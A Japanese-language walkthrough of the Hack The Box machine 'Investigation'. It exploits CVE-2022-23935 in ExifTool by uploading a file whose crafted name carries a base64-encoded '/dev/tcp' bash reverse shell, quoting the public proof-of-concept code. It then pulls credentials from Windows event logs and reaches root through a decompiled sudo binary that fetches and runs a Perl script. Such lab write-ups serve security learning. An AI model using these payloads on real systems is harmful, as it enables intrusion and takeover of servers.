

## Investigation

nmap の結果がこちら。  


`http://eforenzics.htb`にリダイレクトされるが、IPとドメイン名を紐づけていないので、  
`/etc/hosts`に追加する。  

ブラウザから`http://eforenzics.htb`にアクセス。  


『Get access to out FREE image forensics service.』に飛んでみる。  


画像をアップロードできるみたいなので、ネコの画像をアップロードしてみる。  


裏で何か処理が施されリンクを押せるようになる。  
『here』からアクセスしてみる。  


この出力形式は何度も目にしてきた。ExifToolの処理結果だ。  
ExifToolのVersionを見てみると、`12.37`とある。(私のExifToolより最新だ...)

ExifTool v12.37の既知の欠陥を調べると、`CVE-2022-23935`が見つかる。  
参考(https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

この欠陥は、ExifTool Version < 12.38 に存在し細工したファイル名をExifToolに通すとコマンドインジェクションが発生するみたい。  
具体的には、パイプ文字(|)で終わるファイル名だとパイプとして扱われOSコマンドを実行される。  

CVE-2022-23935の欠陥を利用するコードをネットから持ってきて使う。  
念の為、ソースコードも読む。  
参考(https://github.com/0xFTW/CVE-2022-23935)

```
cmd = bytes(f'/bin/bash -i >& /dev/tcp/{self.ip}/{self.port} 0>&1','UTF-8')
encodedName = base64.b64encode(cmd) 
image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="
imageName = f"echo {encodedName.decode()} | base64 -d | bash |"
with open(imageName, "wb") as img:
    img.write(base64.decodebytes(image))
```
bashのpayloadをエスケープ対策にbase64でencodeしたのをファイル名として出力している。  
これで、今回の欠陥を利用できる。  

このプログラムはファイルを出力すると同時に指定したポートで待ち受けてくれる親切設計  


細工したファイル名のファイルをアップロードし、ExifToolで解析させリバースシェルを獲得する。  

探索していくと、今回の問題名「investigation」と同じディレクトリが見つかる。  


`'Windows Event Logs for Analysis.msg'`というファイルが見つかる。  
  

ダウンロードし、調べる。  

Outlook から作成されたファイルみたいなので、開く方法を調べる。  
`msgconvert`というツールで開けるらしい。  
参考(https://freeelectron.ro/opening-msg-outlook-files-in-ubuntu-or-linux-mint/)  


開いてみる。   


```
Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

というメッセージとともに、zipの添付ファイルがあるのでダウンロードして調べる。  

zipファイルを解凍すると、中から`security.evtx`というのが出てくる。  
このファイルはイベントファイルで、`evtxexport`コマンドを使って読める形式に変換する。  
参考(https://softwarerecs.stackexchange.com/questions/17590/how-to-view-evtx-files-on-linux-windows-event-log)

資格情報がないか調べると、認証パッケージにパスワードが保存されていた。  


この資格情報を使用し、リバースシェルを獲得した際に確認した`smorton`ユーザーでログインをする。  


HTBの権限昇格問題の定番`sudo -l`を実行。  


`/use/bin/binary`を実行するも、知らないコマンドであった。  
このバイナリファイルをダウンロードし解析を行う。  

ghidraに通した結果がこちら。  

```
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

このプログラムは引数を受け取り、引数の数が3であるかどうかをチェックする。  
(最初の引数はプログラム自体を渡している)  
そうでなければ、『Exiting...』と表示し、終了。  

次にroot権限でなければ終了、第2引数の文字列が"lDnxUysaQn"であるかのチェック処理がある。  

全ての条件を通った次に、第1引数に指定した対象へ`curl`を行い、ファイルを第2引数の`lDnxUysaQn`で保存する。  
そして、perlコマンドの引数に渡して実行している。  

つまり、perlで書いたリバースシェルコードをダウンロードさせて実行させれば、root権限を獲得できる。  

終了。
